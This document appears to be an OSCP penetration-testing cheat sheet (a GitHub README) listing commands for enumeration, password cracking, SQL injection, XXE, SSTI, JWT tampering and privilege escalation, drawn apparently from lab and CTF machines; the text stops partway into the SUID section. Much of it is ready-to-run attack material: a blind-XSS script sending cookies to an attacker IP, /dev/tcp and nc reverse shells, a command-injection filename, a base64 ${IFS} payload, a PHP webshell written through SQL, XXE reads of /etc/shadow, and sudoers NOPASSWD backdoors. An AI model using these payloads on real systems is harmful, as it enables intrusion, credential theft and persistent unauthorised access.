

# oscp-cheatsheet
This repository describes cheat sheet and knowledge for OSCP.

# Contents
<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [Enumeration](#enumeration)
  - [Network](#network)
    - [nmap](#nmap)
      - [Basic commands](#basic-commands)
      - [Options](#options)
    - [UDP scanning](#udp-scanning)
    - [Check for any known vulnerability by nmap](#check-for-any-known-vulnerability-by-nmap)
    - [RustScan](#rustscan)
      - [Basic command](#basic-command)
      - [Detect service and version](#detect-service-and-version)
      - [Enumeration for UDP](#enumeration-for-udp)
      - [Check for any known vulnerability by rustscan](#check-for-any-known-vulnerability-by-rustscan)
    - [feroxbuster](#feroxbuster)
    - [/dev/tcp instead of nmap and rustscan](#devtcp-instead-of-nmap-and-rustscan)
  - [Windows Privilege Escalation](#windows-privilege-escalation)
    - [PowerUp.ps1](#powerupps1)
    - [Scan](#scan)
    - [SeImpersonatePrivilege](#seimpersonateprivilege)
      - [PrintSpoofer](#printspoofer)
  - [Windows and SMB information](#windows-and-smb-information)
  - [Linux Privilege Escalation](#linux-privilege-escalation)
    - [LinPEAS](#linpeas)
    - [pspy](#pspy)
  - [Kubernetes](#kubernetes)
    - [Enumerate pods (kubeletctl)](#enumerate-pods-kubeletctl)
    - [Enumerate pods (kubectl)](#enumerate-pods-kubectl)
    - [Scan pods vulnerable to RCE](#scan-pods-vulnerable-to-rce)
  - [SPN (Service Principal Name)](#spn-service-principal-name)
- [Password Cracking](#password-cracking)
  - [hydra](#hydra)
      - [Example](#example)
  - [John the ripper](#john-the-ripper)
      - [Example](#example-1)
  - [hashcat](#hashcat)
    - [Generate wordlist](#generate-wordlist)
  - [Webpages](#webpages)
    - [Hashes](#hashes)
    - [craskstation](#craskstation)
- [Brute Force Attack](#brute-force-attack)
  - [File](#file)
      - [dirb](#dirb)
    - [gobuster](#gobuster)
  - [Directory](#directory)
    - [dirb](#dirb-1)
    - [gobuster](#gobuster-1)
    - [dirsearch](#dirsearch)
  - [subdomains](#subdomains)
    - [gobuster](#gobuster-2)
    - [ffuf](#ffuf)
      - [Wordlist example](#wordlist-example)
        - [bitquark-subdomains-top100000.txt](#bitquark-subdomains-top100000txt)
- [JWT (JSON Web Token) exploit](#jwt-json-web-token-exploit)
    - [Debugger](#debugger)
    - [jwt_tool](#jwt_tool)
      - [tampering](#tampering)
      - [exploit](#exploit)
- [SSTI (Server-Side Template Injection)](#ssti-server-side-template-injection)
  - [PayloadsAllTheThings](#payloadsallthethings)
  - [How to identify the Vulnerability SSTI?](#how-to-identify-the-vulnerability-ssti)
    - [Mako](#mako)
      - [RCE](#rce)
- [SQL Injection](#sql-injection)
  - [PayloadsAllTheThings](#payloadsallthethings-1)
    - [Insert Statement injection using ON DUPLICATE KEY UPDATE](#insert-statement-injection-using-on-duplicate-key-update)
    - [Get access user](#get-access-user)
    - [Get privilege type from user](#get-privilege-type-from-user)
    - [Get access database](#get-access-database)
    - [Get schema names](#get-schema-names)
    - [Get table name from information_schema](#get-table-name-from-information_schema)
    - [Get column name from table name](#get-column-name-from-table-name)
    - [Write shell](#write-shell)
  - [sqlmap](#sqlmap)
    - [Basic Example](#basic-example)
    - [second request](#second-request)
    - [enumerate tables](#enumerate-tables)
    - [extract data from table](#extract-data-from-table)
- [NoSQL Injection](#nosql-injection)
  - [Labs for detecting Syntax injection in MongoDB](#labs-for-detecting-syntax-injection-in-mongodb)
  - [Labs for detecting operator injection](#labs-for-detecting-operator-injection)
- [XSS](#xss)
  - [Polyglot](#polyglot)
  - [Blind XSS for check cookie information](#blind-xss-for-check-cookie-information)
- [Aggregating Sensitive Information](#aggregating-sensitive-information)
  - [truffleHog](#trufflehog)
    - [Scan GitHub](#scan-github)
- [XXE](#xxe)
  - [Payloads](#payloads)
  - [LFI by XXE](#lfi-by-xxe)
  - [Get PHP file by XXE](#get-php-file-by-xxe)
- [Fuzz](#fuzz)
  - [ffuf](#ffuf-1)
    - [Basic usage](#basic-usage)
    - [Special Character Fuzz](#special-character-fuzz)
    - [Subdomain Fuzz](#subdomain-fuzz)
- [SSH](#ssh)
  - [Convert Putty private key format to openssh](#convert-putty-private-key-format-to-openssh)
  - [Port Forwarding](#port-forwarding)
    - [Chisel](#chisel)
  - [Unix Socket Forwarding](#unix-socket-forwarding)
    - [PostgreSQL](#postgresql)
- [Depixelize](#depixelize)
  - [Depix](#depix)
- [Spawning shell](#spawning-shell)
  - [python](#python)
  - [echo](#echo)
  - [bash](#bash)
- [JDI](#jdi)
- [Git](#git)
  - [Dump .git](#dump-git)
- [Recover deleted file](#recover-deleted-file)
- [Linux command](#linux-command)
  - [Basic command](#basic-command-1)
    - [Show allowing commands as root user](#show-allowing-commands-as-root-user)
    - [Run command as other user](#run-command-as-other-user)
    - [Show file type](#show-file-type)
    - [Show the strings of printable characters in files](#show-the-strings-of-printable-characters-in-files)
    - [Read from standard input and write to standard output and files](#read-from-standard-input-and-write-to-standard-output-and-files)
    - [Find files created by a particular user](#find-files-created-by-a-particular-user)
    - [Inject os command to file name](#inject-os-command-to-file-name)
    - [Reverse shell by /dev/tcp/](#reverse-shell-by-devtcp)
    - [rlwrap](#rlwrap)
      - [nc (Listen port 9001)](#nc-listen-port-9001)
    - [Extract information from /etc/passwd](#extract-information-from-etcpasswd)
  - [sudoers](#sudoers)
    - [Disable password checking for sudo](#disable-password-checking-for-sudo)
    - [Running all commands are allowed by sudo](#running-all-commands-are-allowed-by-sudo)
  - [Docker](#docker)
    - [Get a subsection in JSON format](#get-a-subsection-in-json-format)
  - [SUID](#suid)
    - [Find files with the SUID bit set](#find-files-with-the-suid-bit-set)
    - [Change the ownership and apply the SUID](#change-the-ownership-and-apply-the-suid)
    - [Spawn a shell with the effective UID](#spawn-a-shell-with-the-effective-uid)
    - [Run files with suid](#run-files-with-suid)
  - [DNS](#dns)
    - [Specify referred DNS server](#specify-referred-dns-server)
    - [Try zone transfer](#try-zone-transfer)
  - [String Processing](#string-processing)
    - [Remove white spaces](#remove-white-spaces)
  - [SMB](#smb)
    - [smbclient](#smbclient)
    - [smbmap](#smbmap)
    - [Test auhtneitcation via SMB](#test-auhtneitcation-via-smb)
  - [mount](#mount)
  - [Extract image from PDF](#extract-image-from-pdf)
- [Windows command](#windows-command)
  - [Powershell](#powershell)
    - [Create New file](#create-new-file)
    - [Display the contents of a text file](#display-the-contents-of-a-text-file)
    - [Get a file via HTTP (equivalent to wget)](#get-a-file-via-http-equivalent-to-wget)
    - [Check privilege](#check-privilege)
    - [Privilege escalation for SeBackupPrivilege / SeRestorePrivilege](#privilege-escalation-for-sebackupprivilege--serestoreprivilege)
  - [Pass-the-Hash Attack](#pass-the-hash-attack)
- [Python](#python-1)
  - [Run HTTP Server](#run-http-server)
    - [python3](#python3)
    - [python2](#python2)
  - [break pyjail](#break-pyjail)
  - [Remote Access](#remote-access)
    - [wmiexec.py](#wmiexecpy)
    - [evil-winrm](#evil-winrm)
  - [Run system command by using dynamic import](#run-system-command-by-using-dynamic-import)
  - [Exploitable python functions](#exploitable-python-functions)
    - [Python2](#python2-1)
      - [input()](#input)
- [PHP](#php)
  - [Detect exploitable function (e.g. RCE)](#detect-exploitable-function-eg-rce)
  - [phar](#phar)
- [Reverse shell](#reverse-shell)
  - [php-reverse-shell](#php-reverse-shell)
  - [Reverse shell cheat sheet](#reverse-shell-cheat-sheet)
  - [GIF89a](#gif89a)
  - [Listening the port for reverse shell](#listening-the-port-for-reverse-shell)
  - [Metasploit](#metasploit)
- [Metasploit](#metasploit-1)
  - [meterpreter](#meterpreter)
  - [Get system info](#get-system-info)
    - [Start shell](#start-shell)
    - [Upload file from Metasploit host to target](#upload-file-from-metasploit-host-to-target)
    - [Download file from target to Metasploit host](#download-file-from-target-to-metasploit-host)
    - [Load powershell and run](#load-powershell-and-run)
  - [msfvenom](#msfvenom)
    - [Windows](#windows)
      - [exe](#exe)
      - [exe-service](#exe-service)
- [Nginx](#nginx)
  - [Malicious conf file to get root privilege](#malicious-conf-file-to-get-root-privilege)
- [Kubernetes (k8s)](#kubernetes-k8s)
  - [Get a list of pods](#get-a-list-of-pods)
  - [Get token](#get-token)
  - [Get certificate](#get-certificate)
  - [Get a list of pods](#get-a-list-of-pods-1)
  - [Get allowed operations on resources](#get-allowed-operations-on-resources)
  - [Applying the image](#applying-the-image)
    - [Example for yaml](#example-for-yaml)
    - [applying the configuration and image](#applying-the-configuration-and-image)
- [BurpSuite](#burpsuite)
  - [Hot Keys](#hot-keys)
  - [Brute force attack by intruder](#brute-force-attack-by-intruder)
- [GraphQL](#graphql)
- [Others](#others)
  - [References for OSCP](#references-for-oscp)
    - [GTFOBins](#gtfobins)
  - [Word List](#word-list)
    - [SecLists](#seclists)
    - [Reverse shell cheat sheet](#reverse-shell-cheat-sheet-1)
      - [php-reverse-shell](#php-reverse-shell-1)
      - [Groovy Reverse shell](#groovy-reverse-shell)
    - [HTML Security CheatSheet](#html-security-cheatsheet)
  - [References for vulnerabilities](#references-for-vulnerabilities)
    - [Shellshock (CVE-2014-6271)](#shellshock-cve-2014-6271)
  - [Kali linux on docker for Mac](#kali-linux-on-docker-for-mac)
- [LICENSE](#license)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->
# Enumeration
## Network
### nmap
#### Basic commands
```console
nmap -sV -T4 -Pn <Target IP Address>
```
#### Options
`-sV`: Show opening ports and running services.  
`-T4`: Prohibit the dynamic scan delay from exceeding 10ms for TCP ports  
`-Pn`: Disable sending ping packets to discover a host  
`-A`: Detect OS and its version.  
`-p`: Specify range of ports. Scan all ports (1-65535) if using the option `-p-`  

### UDP scanning
```
sudo nmap -sU -p- $IP --min-rate=10000 -v
```

### Check for any known vulnerability by nmap
```shell
nmap --script vuln -oA vulnscan $IP
```

### RustScan
This tool is faster tool than nmap.
https://github.com/RustScan/RustScan

#### Basic command
```
rustscan -a <target ip> -- <nmap options>
```

#### Detect service and version
Detect service and versions in 22/tcp and 80/tcp
```
rustscan -a $IP --ports 22,80 -- -sC -sV
```

#### Enumeration for UDP
```
rustscan -a $IP --udp -- -Pn -T4
```

#### Check for any known vulnerability by rustscan
```shell
rustscan -a $IP -- --script vuln -oA vulnscan
```

### feroxbuster
[feroxbuster](https://github.com/epi052/feroxbuster) is one of enumeration tools for files and directories, and resources.
This tool scans the directories and files in the web server recursively by default.
```shell
feroxbuster -u $URL
```

Also, this tool can detect the \<a> tag link.

### /dev/tcp instead of nmap and rustscan
The following command is enumerating opened tcp ports (0-1000) in 172.19.0.1 (e.g. 172.19.0.x is generally used for docker network).

```shell
 for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null &&  echo "port $PORT is open"; done
```


## Windows Privilege Escalation
### PowerUp.ps1
This script enumerates the privileges vulnerabilities in Windows 
https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

### Scan
```console
. .\PowerUp.ps1
Invoke-PrivescAudit [-HTMLReport]
```
Note that this tool output "COMPUTER.username.html" if the `-HTMLReport` is enabled.

### SeImpersonatePrivilege
#### PrintSpoofer
https://github.com/itm4n/PrintSpoofer

## Windows and SMB information
enum4linux-ng is an enumeration tool for Windows and SMB information.
[enum4linux-ng](https://github.com/cddmp/enum4linux-ng)

```
enum4linux-ng  -u $User -p $Password $IP
```

## Linux Privilege Escalation
### LinPEAS
LinePEAS is a script which detect the possible path to escalate privilege on Linux etc...
```
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
```

### pspy
Monitoring process tool in real time.
```
https://github.com/DominicBreuker/pspy
```

Monitoring the process at an interval of 1ms. (If the interval value is not set, the default interval is 100ms.)
```
./pspy64 -i 1
```
## Kubernetes
### Enumerate pods (kubeletctl)
Kubeletctl is a command line tool that implement kubelet's API.
https://github.com/cyberark/kubeletctl?tab=readme-ov-file
```shell
./kubeletctl_linux_amd64 --server $IP pods
```

### Enumerate pods (kubectl)
```shell
kubectl --token=$token --certificate-authority=ca.crt -server=https://$IP:8443 get pods
```

### Scan pods vulnerable to RCE
```shell
./kubeletctl_linux_amd64 --server $IP scan rce
```

## SPN (Service Principal Name)
GetUserSPNs.py enumerates the user accounts with SPN, and get the TGS.
This TGS is used for password cracking by using hashcat.


```
GetUserSPNs.py -request -dc-ip $IP $Domain/SVC_TGS -save -outputfile GetUserSPNs.out
```

[GetUserSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)

# Password Cracking
## hydra
#### Example
- Brute force attack for username and password (HTTP POST)
```console
hydra -L <username list file> -P <password list file> <ip address> http-post-form '<path>:<query parameter>:<string when failing login>'  
```
- Brute force attack for the password (HTTP POST)
```console
hydra -l <username> -P <password list file> <ip address> http-post-form '<path>:<query parameter>:<string when failing login>'
```
We can set the following variables when specifying the list file:  
`^USER^`: Replace this string in \<query parameter\> with the username listed in \<username list file\>  
`^PASSWORD^`: Replace this string in \<query parameter\> with the password listed in \<password list file\>

## John the ripper
A tool to get the plain password from hashed one.

#### Example
```
john --wordlist=rockyou.txt hash.txt
```

## hashcat
A tool to get the plain password from hashed one.
```
hashcat -m <mode> -o <output file> <hashed password file> <wordlist file>
```
Modes are defined in the following page.
https://hashcat.net/wiki/doku.php?id=example_hashes

For example, if we want to decrypt SHA-512 hash value + salt by using rockyou.txt, we should run the following command:
```
hashcat -m 1710 -o cracked.txt hash.txt rockyou.txt
```
, then, the above command outputs cracked password to cracked.txt.

### Generate wordlist
Generate new wordlists based on original wordl and rule.
```shell
hashcat --stdout --force <origin_word_filename> -r <rule file>
```

Rule file is located in `/usr/share/hashcat/rules`.
For example, original word is saved in `origin.txt`, and uses `/usr/share/hashcat/rules/best64.rule` as rule file, as follow:
```shell
hashcat --stdout --force origin.txt -r /usr/share/hashcat/rules/best64.rule
```


## Webpages 
Webpages to get the plain password from hashed one, as follows:
### Hashes
https://hashes.com/en/decrypt/hash

### craskstation
https://crackstation.net/

# Brute Force Attack

## File
#### dirb
```
dirb $URL -X <extension list separated by comma (e.g. .sh, .pl, .txt, .php, .py)>
```

### gobuster
```
gobuster dir -x .sh, .pl, .txt, .php, .py -u <target url> -w /usr/share/wordlists/dirb/common.txt -t 100
```

## Directory
### dirb
```
dirb <target url>
```

### gobuster
```shell
gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -t 100
```
```shell
gobuster dir -u $URL -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```
### dirsearch
```shell
dirsearch -u <target url>
```

## subdomains
### gobuster
Find Vhosts:
```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u $URL --append-domain
```

Find DNS subdomains:
```
gobuster dns -d $Domain -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
```

### ffuf
```
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.<basedomain>" -u $URL
```

#### Wordlist example
##### bitquark-subdomains-top100000.txt
https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/bitquark-subdomains-top100000.txt


# JWT (JSON Web Token) exploit

### Debugger
This website provides decoding JWT and editing the payload in decoded JWT.  
https://jwt.io/

### jwt_tool
This tool helps us to validate, tamper, and forge JWTs for a pentester.  
https://github.com/ticarpi/jwt_tool


#### tampering
```
python jwt_tool.py <JWT> -T
```

#### exploit
```
python jwt_tool.py <JWT> -X <parameter>
```
The parameter can be specified as follow:  
`a`: alg:none  
`n`: null signature  
`b`: blank password accepted in signture  
`s`: spoof JWKS  
`k`: key confusion  
`i`: inject inline JKWS  

# SSTI (Server-Side Template Injection)
## PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

## How to identify the Vulnerability SSTI?
```
${{<%[%’”}}%\.
```
https://medium.com/@aslam.mahimkar/hackthebox-busqueda-writeup-c4ae57a89fd4

### Mako
#### RCE
``` shell
${self.module.cache.util.os.popen("cat /flag.txt").read()}
```

# SQL Injection
## PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

### Insert Statement injection using ON DUPLICATE KEY UPDATE
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#insert-statement---on-duplicate-key-update

### Get access user
```shell
select user()
```

### Get privilege type from user
```shell
select privilege_type FROM information_schema.user_privileges where grantee = <user name>
```

### Get access database
```shell
select database()
```

### Get schema names
```shell
select schema_name from information_schema.schemata
```

### Get table name from information_schema
```shell
select table_name from information_schema.tables where table_schema = <schema_name>
```

### Get column name from table name
```shell
select column_name from information_schema.columns where table_name = <table_name>
```
### Write shell
```shell
select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/0xdf.php'
```

## sqlmap
### Basic Example
```shell
sqlmap -r req.txt --dbs --batch --threads 5
```
`--dbs`: get database list.
`--technique=B`: Boolean-based blind SQL Injection

The type for techniques is described:
https://github.com/sqlmapproject/sqlmap/wiki/Techniques

For websocket, sqlmap can inject SQL logic:
```shell
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 -
level 5 --risk 3 --batch
```
`--dbs`: enumerate database list

### second request
After sending the tampered request, send the second request to check the response.
```shell
sqlmap -r req.txt --second-req=secreq.txt --dbs --threads 5 --tamper=space2comment --batch
```

'tamper' is explained below:
[Tamper](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#tamper)

### enumerate tables
```shell
sqlmap -r req.txt --second-req=secreq.txt --threads 5 --tamper=space2comment --tables --batch -D database_name
```
`-D`: database name

### extract data from table
```shell
sqlmap -r req.txt --second-req=secreq.txt --threads 5 --tamper=space2comment -T users --dump
```
`-T`: table name

# NoSQL Injection
https://portswigger.net/web-security/nosql-injection
https://portswigger.net/web-security/nosql-injection#nosql-operator-injection

## Labs for detecting Syntax injection in MongoDB
https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection

## Labs for detecting operator injection 
https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication


# XSS
## Polyglot
The following script includes multiple payloads to improve the test efficiency.
```shell
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

## Blind XSS for check cookie information
The following script sends the request to an attacker terminal:
```javascript
 <script>var i=new Image(); i.src="http://10.10.14.41:5000/?
 cookie="+btoa(document.cookie);</script>
 ```

# Aggregating Sensitive Information
## truffleHog
This tool gets high entropy strings (e.g. Password, APIKey, etc...).
https://github.com/trufflesecurity/trufflehog
### Scan GitHub
Docker
``` shell
docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest github --repo <Repository URL></Repository>
```

# XXE
## Payloads
https://github.com/payloadbox/xxe-injection-payload-list

## LFI by XXE
```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```
## Get PHP file by XXE

```
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```
# Fuzz
## ffuf
### Basic usage
```
ffuf -request <request file> -request-proto http -w <wordlist (e.g. SecList)>
```
### Special Character Fuzz
```
ffuf -request test_spchars.req -request-proto http -w /usr/share/seclists/Fuzzing/special-chars.txt
```
test_spchars.req is defined as follows [Hack the box: Busqueda](https://app.hackthebox.com/machines/Busqueda):
```
POST /search HTTP/1.1
Host: searcher.htb
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://searcher.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://searcher.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

engine=Google&query=abcdeFUZZ
```

### Subdomain Fuzz
```
ffuf -request test_subdomain.req -request-proto http -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```
test_subdomain.req is defined as follows ([Hack the box: updown](https://app.hackthebox.com/machines/UpDown)):
```
POST / HTTP/1.1
Host: FUZZ.siteisup.htb
Content-Length: 36
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://siteisup.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://siteisup.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

site=http%3A%2F%2Fgoogle.com&debug=1
```
# SSH
## Convert Putty private key format to openssh
```shell
puttygen ssh_key_file -O private-openssh -o id_rsa
```
The "ssh_key_file" is the putty private key, such as:
```
echo "PuTTY-User-Key-File-3: ssh-rsa
 Encryption: none
 Comment: rsa-key-20230519
 Public-Lines: 6
 AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
 8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
 EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
 Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
 FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
 LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
 Private-Lines: 14
 AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
 oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
 kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
 f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
 VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
 UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
 OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
 in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
 SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
 09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
 xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
 AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
 AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
 NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
 Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0" > 
ssh_key_file
```
## Port Forwarding
### Chisel
[Chisel](https://github.com/jpillora/chisel) is one of fast TCP/UDP tunnel tools via SSH.
This tool is tool to access local network.
Server:
```shell
./chisel_1.10.0_linux_amd64 server -p 12312 --reverse
```

Client:
```shell
./chisel_1.10.0_linux_amd64 client <attacker IP>:12312 R:8081:127.0.0.1:8080
```

After running the above commands, we can access http://127.0.0.1:8081/ in attacker PC.

## Unix Socket Forwarding 
### PostgreSQL
PostgreSQL listening behavior is defined at startup via configuration files.
Check postgresql.conf or postgresql.auto.conf for listen_addresses and unix_socket_directories.
listen_addresses = '' disables TCP; unix_socket_directories enables UNIX socket listening.
The UNIX socket (e.g. /var/run/postgresql/.s.PGSQL.5432) exists for the lifetime of the DB process.
Direct remote access to UNIX sockets is impossible by design.
SSH is used as a transport: the remote SSH process connects locally to the UNIX socket and forwards traffic.
Example:
```
ssh -N -L /tmp/.s.PGSQL.5432:/var/run/postgresql/.s.PGSQL.5432 user@target
psql -h /tmp -p 5432 -U postgres
```


# Depixelize
## Depix
https://github.com/spipm/Depix
Depix is a PoC for a technique to recover plaintext from pixelized screenshot.

```shell
python3 depix.py \
    -p /path/to/your/input/image.png \
    -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png \
    -o /path/to/your/output.png
```


# Spawning shell
## python
```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
## echo
```shell
echo 'os.system('/bin/bash')'
```
## bash
```shell
/bin/bash -i
```

# JDI
Decompiling jar and class.
```shell
jd-gui <filename>
```

# Git
## Dump .git
https://github.com/arthaud/git-dumper
```
git-dumper http://siteisup.htb/dev/.git dev
```

# Recover deleted file
When the file is deleted, the metadata of the file is deleted from the filesystem.
However, the content of the file is not deleted immediately.
Therefore, the content of the file is still in the file system.

The following example is the finding which is the content in the deleted file.
```shell
pi@raspberrypi:/media/usbstick$ sudo strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```


# Linux command

## Basic command
### Show allowing commands as root user
```
sudo -l
```

### Run command as other user
```
sudo -u <user> <command>
```
e.g.
```
sudo -u <user> /bin/bash
```
### Show file type
```
file <file name>
```

### Show the strings of printable characters in files
```
strings <file name>
```

### Read from standard input and write to standard output and files
```
echo <text> | tee -a <file>
```

### Find files created by a particular user
```shell
find / -type f -user user
```

### Inject os command to file name
```shell
touch  ';nc -c bash 10.10.14.30 4321;.php'
```
'.php' is an extension

### Reverse shell by /dev/tcp/
```shell
bash -i >& /dev/tcp/<your-ip>/1234 0>&1
```

Note that the above command cannot be combinated with ${IFS} due to "ambiguous redirect"... Therefore, we can encode the above command by base64.
```shell
echo "bash -i >& /dev/tcp/<your-ip>/1234 0>&1" | base64 -w 0
```
When we send the payload the encoded command, add decoding command:
```shell
;echo${IFS}"<your payload here>"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;
```


### rlwrap
https://linux.die.net/man/1/rlwrap
#### nc (Listen port 9001)
```
rlwrap -cAr nc -lnvp 9001
```

### Extract information from /etc/passwd
Extract information except "false", "nologin", and "sync" from /etc/passwd
```
cat /etc/passwd | grep -v -e false -e nologin -e sync
```
false, nologin: Disallow login
sync: Sync disk(?)

## sudoers
### Disable password checking for sudo
```shell
echo "<username> ALL=(root) NOPASSWD: ALL" >> /etc/sudoers
```

### Running all commands are allowed by sudo
In this example, the user "mtz" is allowed to run all commands by sudo.
```shell
echo "mtz    ALL=(ALL:ALL) ALL" | tee -a /etc/sudoers
```


## Docker
### Get a subsection in JSON format
https://docs.docker.com/reference/cli/docker/inspect/
```
docker inspect --format='{{json .Config}}' $INSTANCE_ID
```

## SUID
SUID is "set user id".
